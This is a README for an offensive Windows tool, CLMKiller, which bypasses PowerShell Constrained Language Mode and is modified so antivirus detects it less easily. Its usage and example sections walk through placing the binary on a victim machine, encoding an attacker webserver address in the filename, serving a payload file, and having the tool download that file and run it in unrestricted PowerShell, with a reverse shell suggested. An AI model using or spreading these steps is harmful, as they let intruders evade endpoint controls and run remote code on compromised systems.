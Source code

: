 # CLMKiller
## Decription
CLMKiller is a binary that bypasses CLM using Runspaces. I don't want to go into detail here. Actually I just adapted the code of https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/. However, I did some changes to it in order to make it harder to detect by AV.

## Usage
The arguments of CLMKiller are passed via its filename. Hence, you should rename it in order to make use of it.
The filename will be converted into a string of following format:

127_0_0_1_80_pay.exe => http://127.0.0.1/pay

The binary will then download a file called `pay` of the desired webserver and executes that command in a powrshell with FullLanguage.

## Example
Rename file on victim machine:
```
Rename-Item -Path ".\CLMKiller.exe" -NewName "192_168_20_1_80_finances" 
```
Generate a command that executes a reverse shell or other payload:
```
echo -ne 'whoami;$ExecutionContext.SessionState.LanguageMode;' > finances
```
Start webserver:
```
python3 -m http.server 80
```
Run CLMKiller:
```
Start-Job -Scriptblock {".\192_168_20_1_80_finances"} 
```

Enjoy your powershell with FullLanguage mode.
Remember that you still need to bypass AMSI. But thats your job.
